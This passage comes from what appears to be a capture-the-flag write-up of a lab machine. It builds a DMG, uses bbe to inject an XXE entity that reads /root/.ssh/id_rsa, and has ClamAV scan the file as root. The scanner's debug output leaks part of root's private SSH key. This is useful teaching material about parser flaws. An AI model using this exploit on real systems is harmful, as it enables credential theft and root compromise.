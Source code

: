 
Next I’ll turn that into a DMG:

    
    
    root@39e742dc1260:/exploit# dmg dmg test.img test.dmg
    Processing DDM...
    No DDM! Just doing one huge blkx then...
    run 0: sectors=512, left=724
    run 1: sectors=212, left=212
    Writing XML data...
    Generating UDIF metadata...
    Master checksum: ffac019f
    Writing out UDIF resource file...
    Cleaning up...
    Done
    

Finally, I’ll use `bbe` (the [binary block
editor](https://linux.die.net/man/1/bbe)) to edit in the XXE, modifying the
command from GitHub to read root’s ssh key instead of `/etc/passwd`:

    
    
    root@39e742dc1260:/exploit# bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit.dmg
    

I’ll exit the container and (because I was working out of the mapped
directory), `exploit.dmg` is there. I’ll `scp` it to Snoopy:

    
    
    oxdf@hacky$ scp -i ~/keys/ed25519_gen exploit.dmg sbrown@snoopy.htb:/home/sbrown/scanfiles
    exploit.dmg                                                            100%  217KB 464.4KB/s   00:00
    

And scan it as root:

    
    
    sbrown@snoopy:~$ sudo clamscan --debug /home/sbrown/scanfiles/exploit.dmg
    LibClamAV debug: searching for unrar, user-searchpath: /usr/local/lib
    LibClamAV debug: unrar support loaded from /usr/local/lib/libclamunrar_iface.so.11.0.0
    LibClamAV debug: Initialized 1.0.0 engine
    LibClamAV debug: Initializing phishcheck module
    ...[snip]...
    LibClamAV debug: Descriptor[3]: Continuing after file scan resulted with: No viruses detected
    LibClamAV debug: in cli_scanscript()
    LibClamAV debug: matcher_run: performing regex matching on full map: 0+3329(3329) >= 3329
    LibClamAV debug: matcher_run: performing regex matching on full map: 0+3329(3329) >= 3329
    LibClamAV debug: hashtab: Freeing hashset, elements: 0, capacity: 0
    LibClamAV debug: hashtab: Freeing hashset, elements: 0, capacity: 0
    LibClamAV debug: Descriptor[3]: Continuing after file scan resulted with: No viruses detected
    LibClamAV debug: cli_magic_scan: returning 0  at line 4997
    LibClamAV debug: clean_cache_add: 0bf7a447855c6e598fe480a4a46d4988 (level 0)
    LibClamAV debug: cli_scandmg: wanted blkx, text value is -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/
    4gpYjIcyauPHSrV4fjNGM46AizDTQIoK6MyN4K8PNzYMaVnB6IMG9AVthEu11nYzoqHmBf
    ...[snip]...
    